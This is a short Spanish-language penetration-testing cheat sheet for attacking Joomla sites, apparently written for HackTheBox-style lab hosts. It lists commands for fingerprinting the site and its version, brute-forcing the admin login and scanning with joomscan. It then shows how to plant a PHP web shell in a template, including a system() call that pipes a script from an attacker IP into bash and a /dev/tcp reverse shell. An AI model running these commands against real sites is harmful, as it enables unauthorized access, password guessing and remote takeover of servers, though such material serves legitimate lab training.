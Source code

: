 #### Buscar en el código fuente si un sitio es joomla:

    curl -s http://dev.inlanefreight.local/ | grep Joomla

#### Buscar versión manualmente:

    curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

#### Brute-forcing:

    sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

#### Automated scan:

    perl joomscan.pl -u <site> --enumerate-components 
    


### Obteniendo una shell:

Podemos obtener una shell siguiendo un proceso parecido al de WP:
##### 1)Entramos al control panel y vamos a templates
##### 2)En templates vamos nuevamente a Templates
##### 3)Seleccionamos el template donde vamos a meter la shell dentro de la columna template(esto nos lleva al customizador)
##### 4)incertamos la shell en una página. Luego podemos llamarla con curl:

        
        curl -s http://app.inlanefreight.local/templates/<template>/<pagina>.php?0=id
### Obteniendo una shell 2:

##### agregar en una página un código php:
        <?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>

##### crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

##### iniciar un servidor python y un netcat

##### Llamar a la páginacon curl:

        curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"

##### Obtener una mejor shell:
        script /dev/null -c bash
